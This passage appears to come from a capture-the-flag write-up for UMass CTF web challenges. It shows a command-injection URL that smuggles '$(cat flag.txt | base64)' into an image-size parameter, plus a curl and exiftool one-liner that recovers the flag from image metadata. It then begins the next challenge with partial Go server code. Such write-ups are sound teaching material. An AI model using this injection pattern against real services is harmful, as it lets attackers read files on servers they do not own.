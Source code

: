 `http://spongebob-blog.ctf.umasscybersec.org/assets/image?name=spongebob&size=200%20-set%20Flag%20%22$(cat%20flag.txt%20|%20base64)%22`

We can download the image rendered and view using exiftool and decode from base64

![Alt text](_attachments/metadata.png)

```bash
curl -s 'http://spongebob-blog.ctf.umasscybersec.org/assets/image?name=spongebob&size=200%20-set%20Flag%20%22$(cat%20flag.txt%20|%20base64)%22' | exiftool - | grep Flag | cut -d ':' -f 2 | tr -d '!' | xargs | base64 -d 
```


flag: **UMASS{B4S1C_CMD_INJ3CTI0N}**

---
# web/Crabby Clicker
> I've created a new game called Crabby Clicker! It's a fun game where you click on a crab to get points. Once you get enough points, you can buy the flag!

We are given a `#go` server which apparently has bugs in it. We needed to click 100 times by sending requests to the `/click` endpoint. The bug was the state is not saved accross requests. I think doing in HTTP resets the connection so I tried doing in TCP in pwn and it worked. 

main.go
```go
package main

import (
	"bufio"
	"fmt"
	"net"
	"os"
	"strings"
	"time"
)

type RequestHandler struct {
	burgers int
	conn    net.Conn
}

var GLOBAL_STATE RequestHandler

func main() {
	// Listen on TCP port 8080 on all interfaces.
	ln, err := net.Listen("tcp", ":1337")
	if err != nil {
		fmt.Println("Error listening:", err.Error())
		return
	}
	defer ln.Close()
	fmt.Println("Listening on :1337")

	GLOBAL_STATE = RequestHandler{burgers: 0, conn: nil}

	for {
		// Accept a connection.
```